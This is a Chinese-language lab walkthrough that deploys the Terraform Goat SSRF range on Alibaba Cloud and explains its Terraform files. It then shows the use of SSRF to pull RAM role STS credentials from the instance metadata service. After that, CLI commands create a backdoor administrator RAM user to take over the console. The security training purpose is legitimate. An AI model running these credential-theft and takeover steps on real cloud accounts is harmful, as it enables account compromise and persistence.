

通过 Terraform Goat 快速部署云环境靶场，实践通过元数据窃取凭证的场景。

<!--more-->

在 [无孔不入：云上常见攻击场景](/posts/cloud-attack-scenario) 中，我们提到了窃取凭据这一步的实现方法之一：通过实例元数据服务获取角色临时凭据。借助 [Terraform Goat](https://github.com/HXSecurity/TerraformGoat) 这一工具，我们可以对这类场景进行动手实践，同时对 Terraform 语法进行初步了解。

## Terraform Goat 部署

使用 docker-compose 部署 Terraform Goat 环境，相关参数比较简单，但由于需要和 shell 交互需要注意开启交互模式和 tty：

```yaml
services:
  terraformgoat_aliyun:
    image: registry.cn-hongkong.aliyuncs.com/huoxian_pub/terraformgoat_aliyun:0.0.7
    container_name: terraformgoat_aliyun
    stdin_open: true
    tty: true

networks:
  default:
    external: true
    name: lab
```

随后运行 `docker exec -it terraformgoat_aliyun /bin/bash` 进入环境 shell，以阿里云为例进行 AK 配置：

```bash
$ aliyun configure
```

这里我们可以在 RAM 控制台创建 RAM 用户 `terraform-goat`，访问方式勾选“使用永久 AccessKey 访问”并获取 AccessKey ID 和 AccessKey Secret，填入 prompt 中即可。那么这个 RAM 用户需要哪些权限呢？我们可以看一下它创建资源时需要执行哪些操作。

## Terraform 文件分析

进入相关目录 `aliyun/ecs/ecs_ssrf`，检查 `main.tf` 并进行逐步分析。

### ECS 实例

```terraform
resource "alicloud_instance" "instance" {
  security_groups            = alicloud_security_group.group.*.id
  instance_type              = data.alicloud_instance_types.types_ds.instance_types.0.id
  image_id                   = "ubuntu_18_04_64_20G_alibase_20190624.vhd"
  instance_name              = "huocorp_terraform_goat_instance"
  vswitch_id                 = alicloud_vswitch.vswitch.id
  system_disk_size           = 20
  internet_max_bandwidth_out = 100
  user_data                  = <<EOF
#!/bin/bash
sudo apt-get -y update
sudo apt-get -y install apache2
sudo apt-get -y install php
sudo apt-get -y install php-curl
sudo sed -i 's/Listen 80/Listen 8080/' /etc/apache2/ports.conf
sudo /etc/init.d/apache2 restart
cd /var/www/html
sudo apt-get -y install wget
sudo wget https://huocorp-oss.oss-cn-beijing.aliyuncs.com/terraform-goat-dependency-files/ssrf-lab.zip
sudo apt-get -y install unzip
sudo unzip ssrf-lab.zip
sudo mv ./ssrf-lab/static/flag69152201.txt /
EOF
  depends_on = [
    alicloud_security_group.group,
    alicloud_vswitch.vswitch,
  ]
}
```

可以看到：
1. 首先设置安全组为 `alicloud_security_group` 资源类型下名称为 `group` 的资源，使用 `.*` 匹配所有资源实例。
2. 实例规格来自 `alicloud_instance_types` 数据源类型下名称为 `type_ds` 的数据源，其中 `instance_types` 是该数据源返回的一个数据。这里提取了第一个数据实例的 id。在后面可以看到数据源定义，表示 1 核 1G 规格：
```terraform
data "alicloud_instance_types" "types_ds" {
  cpu_core_count = 1
  memory_size    = 1
}
```
3. VSwitch 为 `alicloud_vswitch` 资源类型下名称为 `vswitch` 的资源。
4. `user_data` 属性表示 [自定义数据](https://help.aliyun.com/zh/ecs/user-guide/customize-the-initialization-configuration-for-an-instance)，在创建 ECS 实例时可以在高级选项中设置，实例首次启动时会运行输入的脚本进行初始化：



这里可以看到初始化时启动了 ssrf-lab 服务，且可以发现 flag 的位置，但对于我们之后模拟的攻击者而言暂时是未知的。

5. `depends_on` 属性表示该实例依赖 `alicloud_security_group.group` 和 `alicloud_vswitch.vswitch` 两项资源。

### 安全组

```terraform
resource "alicloud_security_group" "group" {
  name   = "huocorp_terraform_goat_security_group"
  vpc_id = alicloud_vpc.vpc.id
  depends_on = [
    alicloud_vpc.vpc
  ]
}

resource "alicloud_security_group_rule" "allow_all_tcp" {
  type              = "ingress"
  ip_protocol       = "tcp"
  nic_type          = "intranet"
  policy            = "accept"
  port_range        = "8080/8080"
  priority          = 1
  security_group_id = alicloud_security_group.group.id
  cidr_ip           = "0.0.0.0/0"
  depends_on = [
    alicloud_security_group.group
  ]
}
```

可以看到：
1. 安全组对应的 VPC 为后面定义的 `alicloud_vpc.vpc`，因此存在依赖关系。
2. 在安全组规则 `allow_all_tcp` 中，设置了内网入方向规则，放行了任意 IPv4 至 `TCP/8080` 端口的访问，并通过 `security_group_id` 绑定至上面定义的安全组，因此存在依赖关系。

### VPC

```terraform
resource "alicloud_vpc" "vpc" {
  vpc_name   = "huocorp_terraform_goat_vpc"
  cidr_block = "172.16.0.0/16"
}

resource "alicloud_vswitch" "vswitch" {
  vpc_id       = alicloud_vpc.vpc.id
  cidr_block   = "172.16.0.0/24"
  zone_id      = "cn-beijing-h"
  vswitch_name = "huocorp_terraform_goat_vswitch"
  depends_on = [
    alicloud_vpc.vpc
  ]
}
```

这里先定义了一个网段为 `172.16.0.0/16` 的 VPC，随后定义了其子网 `172.16.0.0/24` 分配给一个北京地域可用区 H 的 VSwitch，后者依赖前者。

### RAM 角色与授权

首先定义 RAM 角色，在信任策略中为 ECS 服务授予 `sts:AssumeRole` 权限：

```terraform
resource "alicloud_ram_role" "role" {
  name     = "huocorp-terraform-goat-role"
  force    = true
  document = <<EOF
  {
  "Statement": [
    {
      "Action": "sts:AssumeRole",
      "Effect": "Allow",
      "Principal": {
        "Service": [
          "ecs.aliyuncs.com"
        ]
      }
    }
  ],
  "Version": "1"
  }
  EOF
}
```

> `AssumeRole` 操作允许一个实体（用户/角色/服务）临时扮演另一个角色，即获取另一个角色的权限。调用该 API 之后，实体可以获得一组临时安全凭证（AK,SK,STS Token）。适用于跨账户访问、权限委派、联合身份验证和服务间访问等场景。

这里的含义是，ECS 服务可以通过调用 `AssumeRole` 来临时获取 `huocorp-terraform-goat-role` 角色的权限。实际业务场景中，这样做通常是为了能让 ECS 不需要硬编码 AK 也能访问其他云资源，同时避免直接授予 ECS 服务过高的权限。

随后定义 RAM 授权策略，这里直接就是管理员权限：

```terraform
resource "alicloud_ram_policy" "policy" {
  policy_name     = "AdministratorAccess"
  force           = true
  policy_document = <<EOF
  {
    "Statement": [
        {
            "Action": "*",
            "Effect": "Allow",
            "Resource": "*"
        }
    ],
    "Version": "1"
  }
  EOF 
}
```

将 RAM 角色绑定到之前创建的 ECS 实例：

```terraform
resource "alicloud_ram_role_attachment" "attach" {
  role_name    = alicloud_ram_role.role.name
  instance_ids = alicloud_instance.instance.*.id
  depends_on = [
    alicloud_instance.instance
  ]
}
```

最后将上面创建的 RAM 授权策略绑定到 `huocorp-terraform-goat-role` 角色：

```terraform
resource "alicloud_ram_role_policy_attachment" "attach" {
  policy_name = alicloud_ram_policy.policy.name
  policy_type = alicloud_ram_policy.policy.type
  role_name   = alicloud_ram_role.role.name
  depends_on = [
    alicloud_ram_policy.policy,
    alicloud_ram_role.role
  ]
}
```

### 总结

在 `outputs.tf` 中可以看到输出了 ssrf-lab 服务地址：

```terraform
output "ssrf_lab_address_link" {
  value       = "http://${alicloud_instance.instance.public_ip}:8080/ssrf-lab"
  description = "ssrf lab address link."
}
```

从上面的所有操作可以总结，进行这些操作的 RAM 用户需要的权限包括（这里直接使用了系统授权策略，如需更细粒度权限控制可以编写自定义授权策略）：
- `AliyunECSFullAccess`
- `AliyunVPCFullAccess`
- `AliyunRAMFullAccess`

## SSRF 环境启动

给我们的 RAM 用户 `terraform-goat` 授予上述权限后，就可以启动环境了：

```bash
$ terraform init
$ terraform apply
```

### 无可售卖实例问题

过程中可能遇到所选可用区无相应规格的可售卖实例的问题，`terraform destroy`、切换 VSwitch 的可用区（等同于 ECS 实例所处的可用区）并重新 `terraform apply`，本以为可以解决，但新的可用区又出现了 VSwitch 无可售卖实例的问题。为了一劳永逸地自动化解决该问题，查询 [Alibaba Cloud Provider|Terraform Registry](https://registry.terraform.io/providers/aliyun/alicloud/latest/docs/data-sources/zones) 发现可以设置一个 data 过滤出满足指定条件的可用区：

```terraform
data "alicloud_zones" "zones_ds" {
  available_instance_type = data.alicloud_instance_types.types_ds.instance_types.0.id
  available_resource_creation = "VSwitch"
}
```

这里将我们 1C1G 对应的实例类型以及 VSwitch 产品传入，即可过滤出即存在对应规格可售卖实例、又存在可售卖 VSwitch 实例的可用区了。随后修改 VSwitch 的 `zone_id`：

```terraform
resource "alicloud_vswitch" "vswitch" {
  vpc_id       = alicloud_vpc.vpc.id
  cidr_block   = "172.16.0.0/24"
  zone_id      = data.alicloud_zones.zones_ds.zones.0.id
  vswitch_name = "huocorp_terraform_goat_vswitch"
  depends_on = [
    alicloud_vpc.vpc
  ]
}
```

重新 `terraform apply` 即可，随后会输出 ssrf-lab 的链接，稍等一段时间后访问即可成功访问服务。


## 获取 RAM 角色临时凭据

通过 SSRF 访问元数据服务（阿里云元数据服务地址为 http://100.100.100.200/latest/meta-data）：


除 SSRF 之外，如果我们成功获取了实例或实例上的容器的命令执行权限（例如通过容器中的 Web 应用漏洞入侵容器）也能达到同样效果。

只要 ECS 实例绑定了 RAM 角色（例如在 ACK 服务中会自动授权 Node 实例一个 `kubernetesworkerrole` 开头的 RAM 角色），在元数据服务中就可以看到存在 `ram/` 目录（访问时注意带上 `/`）。

> ECS 绑定 RAM 角色方法：


在 `ram/security-credentials` 目录下可以看到 ECS 绑定的 RAM 角色，随后访问 `ram/security-credentials/[对应的 RAM 角色名称]`，就可以获取到该角色的 STS Token：


**加固方式**：可以设置实例元数据访问模式为仅加固模式，这样访问元数据服务也需要携带凭证（但有可能影响部分服务功能，例如 ACK）。然而，如果攻击者已经取得了命令执行权限而不只是 SSRF，那么同样可以根据 [官方文档](https://help.aliyun.com/zh/ecs/user-guide/view-instance-metadata) 中的方法获取 token 后再获取元数据。

## 接管云控制台

将获得的凭证三件套配置到 CLI 中，即可调用 API 创建可登录控制台且具备管理员权限的 RAM 账号：

```bash
$ aliyun configure --mode StsToken
$ aliyun ram CreateUser --UserName merc
$ aliyun ram CreateLoginProfile --UserName merc --Password ee027a5983ffb0c4
$ aliyun ram AttachPolicyToUser --PolicyType System --PolicyName AdministratorAccess --UserName merc
```

登录控制台时需要 UID 作为后缀，可以通过 `aliyun ram GetAccountAlias` 获取。

实际上，只要 ECS 绑定的 RAM 角色具备 `AliyunRAMFullAccess` 权限，我们就可以通过调用 API 修改 RAM 策略的方式将自己的 RAM 用户提权到管理员。但如果不具备修改 RAM 策略的权限，那么只能在该 RAM 角色当前具备的权限范围内进行操作了。因此合理控制云上实体（用户/角色/服务）的权限范围尤为重要。

## 获取 flag

在 [官方文档](https://help.aliyun.com/zh/ecs/user-guide/view-instance-metadata) 中记录了所有实例元数据的含义，其中存在很多有价值的信息，例如获取 VPC/VSwitch 网段，可以用于后续内网扫描：


或是实例的自定义数据（不属于元数据，在上一层目录）：


从这里可以发现自定义数据中的 flag 路径，利用 SSRF 即可读取：


## 参考资料

1. [Terraform Goat](https://github.com/HXSecurity/TerraformGoat)
2. [从云服务器 SSRF 漏洞到接管你的阿里云控制台](https://cloudsec.huoxian.cn/docs/articles/aliyun/takeover_aliyun_console)
3. [Alibaba Cloud Provider|Terraform Registry](https://registry.terraform.io/providers/aliyun/alicloud/latest/docs)
4. [使用自定义数据进行实例初始化](https://help.aliyun.com/zh/ecs/user-guide/customize-the-initialization-configuration-for-an-instance)
5. [实例元数据](https://help.aliyun.com/zh/ecs/user-guide/view-instance-metadata)
